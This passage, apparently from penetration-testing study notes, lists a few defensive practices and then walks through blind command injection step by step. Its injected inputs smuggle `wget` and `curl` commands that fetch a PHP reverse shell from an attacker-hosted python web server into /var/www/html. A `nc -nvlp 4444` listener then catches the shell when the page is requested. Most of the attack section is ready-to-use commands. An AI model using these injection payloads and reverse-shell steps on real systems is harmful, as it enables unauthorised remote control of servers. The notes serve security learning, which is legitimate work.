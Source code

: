 - Validate and sanitize user inputs.
- Use parameterized queries and prepared statements.
- Employ least privilege principles for application permissions.
- Use security tools to monitor and detect suspicious activities.

##### Blind Command Injection:

In case,we are not able to see the output and not sure if the command is being executed, we can use web hook or have any server to listen and type the command to test,  if the blind command injection is working:
- {webhook_url}?\`whoami\`

We can also use \n to go to next line and execute a command, for example, we are going to grab a file from the python http server, we host in the attacker machine

- `https://google.com \n wget {attacker_IP_address}:81/test`
- In attacker machine, we will have `python3 -m http.server 81`

If we need to pop the shell from the target machine, with blind command injection, we can upload the shell script from attacker machine and listen to that port, to trigger a reverse shell. This is because as the ; and other required characters, are being filter in the search functionality in blind injection.

Grab the php revese shell from the below path:
- `/usr/share/webshells/laundanum/php/php-reverse-shell.php`

Copy it to any location, where you can host the web server with python
- `cp /usr/share/webshells/laundanum/php/php-reverse-shell.php ./tmp`

Gedit the file and update the ip_address and port as required and rename the filename as required to smaller form factor
-  `mv php-reverse-shell.php rev.php`
- `gedit rev..php`

Host the python web server in tmp folder
- `python3 -m http.server 81`

In another command tab, listen for the port mentioned in the reverse shell file
- `nc -nvlp 4444`

In the browser, for blind injection use wget and grab the php file or if that doesn't work we can use curl to grab the file.
- `https://google.com \n wget {attacker_IP_address}:81/rev.php`
- `https://google.com && curl {attacker_IP_address}:81/rev.php > /var/www/html/rev.php`

Once, we have the file in the target machine try to run the file, that is placed in /var/www/html path, with the base url, for example
-  `http://localhost/rev.php`

Observe if the reverse shell is popped in the nc listen in attacker machine, if yes, we are successful with the blind command injection.


#### Insecure File Upload - Basic Bypass:

Through this vulnerability, we can upload a file with malicious code and execute it remotely, to get a shell or any other command.
